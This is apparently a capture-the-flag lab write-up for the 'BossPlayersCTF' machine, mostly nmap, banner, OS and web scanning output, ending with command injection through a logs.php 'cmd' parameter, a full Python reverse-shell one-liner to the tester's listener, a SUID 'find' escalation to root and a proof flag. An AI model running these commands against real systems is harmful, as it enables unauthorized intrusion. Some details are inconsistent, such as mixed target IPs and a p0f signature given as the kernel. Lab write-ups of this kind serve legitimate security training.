


# BossPlayersCTF :

## 1 Network Mapping :
### 1.1 Live host :
#### 1.1.1 With ICMP :
First with nmap ping :
````bash
nmap -v -sP 192.168.74.20
````

Return :
````text
Nmap scan report for 192.168.74.20
Host is up (0.13s latency).
`````

---
#### 1.1.2 With TCP :
Second TCP SYN :
`````bash
nmap -v -sP -PS80 192.168.74.20
`````

Return :
````text
map scan report for 192.168.74.20
Host is up (0.13s latency).
````

With hping :
````bash
hping3 -S -c 2 192.168.74.20
````

Return :
**NONE**

---

#### 1.1.3 With ARP :
Run :
````bash
arping 192.168.74.20
````

**TIMEOUT**

#### 1.1.3 With DNS :
Run :
````bash
nmap -sL 192.168.74.20
````

**NONE**

### 1.2 Identify ports :
#### 1.2.1 TCP ports :
Run :
````bash
nmap -sS 192.168.74.20
````

Return :
````text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
````

Run full TCP handshake without ICMP :
````bash
nmap -sT -P0 192.168.74.20
````

Return :
````text
22/tcp open  ssh
80/tcp open  http
````

Run all TCP ports :
````bash
nmap -sS -p1-65535 192.168.74.20
````

Return :
````text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
````

#### 1.2.2 UDP port :
Run :
````bash
nmap -sU 192.168.74.20
````

Return :
````text
PORT      STATE         SERVICE
989/udp   open|filtered ftps-data
17237/udp open|filtered unknown
19181/udp open|filtered unknown
20449/udp open|filtered unknown
21131/udp open|filtered unknown
22055/udp open|filtered unknown
22124/udp open|filtered unknown
34579/udp open|filtered unknown
36669/udp open|filtered unknown
49195/udp open|filtered unknown
49259/udp open|filtered unknown
````

Run all UDP ports:
````bash
nmap -sU -p1-65535 192.168.74.20
````

**TOO LONG**

### 1.3 Identify banner's :
#### 1.3.1 Manual :
Run :
````bash
nc 192.168.74.20 22 
SSH-2.0-OpenSSH_7.9p1 Debian-10

nc 192.168.74.20 80
Apache/2.4.38 (Debian) Server at 127.0.1.1 Port 80

nc 192.168.74.20 989
# NONE but OPEN

nc 192.168.229.20 17237
# REFUSED

nc 192.168.229.20 19181
# REFUSED

nc 192.168.229.20 20449
# REFUSED

nc 192.168.229.20 21131
# REFUSED

nc 192.168.229.20 22055
# REFUSED

nc 192.168.229.20 22124
# REFUSED

nc 192.168.229.20 34579
# REFUSED

nc 192.168.229.20 36669
# REFUSED

nc 192.168.229.20 49195
# REFUSED

nc 192.168.229.20 49259
# REFUSED
````

### 1.3.2 Automatic :
Run :
````bash
nmap -sV 192.168.74.20
````

Return :
````text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
````

Run HTTPRINT :
````bash
httprint -h 192.168.74.20 -s /usr/share/httprint/signatures.txt
````

Return :
````text
Banner Reported: Apache/2.4.38 (Debian)
Banner Deduced: Apache/2.0.x
````

### 1.4 Identify OS :
#### 1.4.1 Manual :
Run :
````bash
p0f -i tun0
nc 192.168.74.20 80
````

Return :
````text
.-[ 192.168.49.74/33714 -> 192.168.74.20/80 (syn+ack) ]-
|
| server   = 192.168.74.20/80
| os       = ???
| dist     = 1
| params   = none
| raw_sig  = 4:63+1:0:1286:mss*20,7:mss,sok,ts,nop,ws:df:0
|
`----
````

#### 1.4.1 Automatic :
Run :
````bash
nmap -O 192.168.74.20
````

Return :
````text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/11%OT=22%CT=1%CU=30149%PV=Y%DS=2%DC=I%G=Y%TM=5FD3E2
OS:85%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=2%ISR=10D%TI=Z%II=I%TS=A)SEQ(SP=
OS:105%GCD=1%ISR=10C%TI=Z%TS=A)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT
OS:11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=7120%W2=7120%W3=7
OS:120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M506NNSNW7%CC=Y%Q
OS:=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
````

#### 1.5 Conclusion :
Network information :

* OS : Debian-10
* IP : 192.168.229.20
* MAC : ?
* Same Subnet : No
* DNS record : ?

Ports informations :

* 22 ; open ; SSH ; SSH-2.0-OpenSSH_7.9p1 Debian-10 ; TCP
* 80 ; open ; HTTP ; Apache httpd 2.4.38 ((Debian)) ; TCP
* 989 ; filtered ; ftps-data ; ? ; UDP


OS informations :

* OS : DEBIAN-10
* Kernel : 4:63+1:0:1286

---

## 2 Vulnerability assesment :
### 2.1 Search sploit :
Run :
````bash
searchsploit OpenSSH 7.9
# None 
searchsploit Apache 2.4.38
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution  
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner
Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service              
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow      
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory Traversal
Apache Tomcat < 5.5.17 - Remote Directory Listing                
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal              
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)        
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)
Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)     
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution
````

### 2.2 NSE scripts :
````bash
nmap -sV --script=exploit,vuln,auth,default -p 22,80 -oX /tmp/BossPlayersCTF.xml 192.168.229.20
xsltproc /tmp/BossPlayersCTF.xml -o /var/www/html/BossPlayersCTF.html
````

Port 22 :


Port 80 :


---

### 2.3 Port 80 :
Run nikto :
````bash
nikto -h 192.168.229.20
````

Return :
````text
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 23f, size: 59394284b0000, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7915 requests: 0 error(s) and 6 item(s) reported on remote host
````

Run dirb :
````bash
dirb http://192.168.229.20/
````

Return :
````text
+ http://192.168.229.20/index.html (CODE:200|SIZE:575)
+ http://192.168.229.20/robots.txt (CODE:200|SIZE:53)
+ http://192.168.229.20/server-status (CODE:403|SIZE:302)
````

Re run dirb :
````bash
dirb http://192.168.229.20/ /usr/share/dirb/wordlists/big.txt
````

Run wapiti :
````bash
wapiti -u http://192.168.229.20/
````

Return :
````text
Injection SQL						0
Injection SQL en aveugle			0
Divulgation de fichier				0
Cross Site Scripting				0
Injection CRLF						0
Exécution de commandes				0
Contournement de htaccess			0
Copie de sauvegarde					0
Fichier potentiellement dangereux	0
Server Side Request Forgery			0
Open Redirect						0
XXE									0
Erreur interne au serveur			0
Consommation anormale de ressource	0
````

Run whatweb :
````bash
whatweb -a 4 192.168.229.20
````

Return :
````text
http://192.168.229.20 [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.229.20]
````

On web service we have :

* index.html
* robots.txt
* server-status
* logs.php

Download files :
````bash
wget http://192.168.229.20/index.html
wget http://192.168.229.20/robots.txt
wget http://192.168.229.20/server-status
wget http://192.168.229.20/logs.php
````

Execute cmd :
http://192.168.229.20/logs.php?cmd=whoami
123soleil


Get reverse shell :
nc -nlvp 6666
http://192.168.229.20/logs.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.229",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'


Priv exec :
find -exec bash -p \;
whoami
root

cat proof.txt
00e70afdbc33a04b59cc853377d8e917


